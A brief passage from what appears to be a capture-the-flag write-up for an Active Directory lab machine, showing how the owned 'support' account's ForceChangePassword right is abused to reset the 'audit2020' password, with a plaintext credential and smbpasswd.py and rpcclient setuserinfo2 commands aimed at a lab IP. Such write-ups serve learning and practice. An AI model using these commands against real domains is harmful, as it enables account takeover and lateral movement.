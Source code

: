 got several json file, upload to bloodhound.



check user support(have owned), first degree objet control 

user support, forcechangepassword to user audit2020

![image-20221210153822720](./images/image-20221210153822720.png)



## rpc change pwd

reset audit2020's password via rpc.

```bash
## not work
smbpasswd.py support:#00^BlackKnight@blackfield.local -newpass Hack01@123  

## https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'Hack01@123'
```

